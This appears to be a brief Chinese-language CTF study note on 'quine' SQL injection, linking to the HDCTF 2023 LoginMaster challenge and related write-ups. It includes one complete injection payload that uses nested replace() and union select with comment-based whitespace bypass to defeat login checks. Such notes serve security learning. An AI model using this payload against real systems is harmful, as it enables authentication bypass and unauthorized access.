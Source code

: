quine

一道题

[[HDCTF 2023\]LoginMaster | NSSCTF](https://www.nssctf.cn/problem/3782)

解

[CTFHub_2021-第五空间智能安全大赛-Web-yet_another_mysql_injection（quine注入） - zhengna - 博客园 (cnblogs.com)](https://www.cnblogs.com/zhengna/p/15917521.html)

[SQL注入之Quine注入-CSDN博客](https://blog.csdn.net/weixin_53090346/article/details/125531088)

0x、char、chr三个等价

payload:

```
1'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#')#

```

[【NISACTF】write up | mrl64's Blog](https://mrl64.github.io/2022/03/27/[NISACTF]write-up/)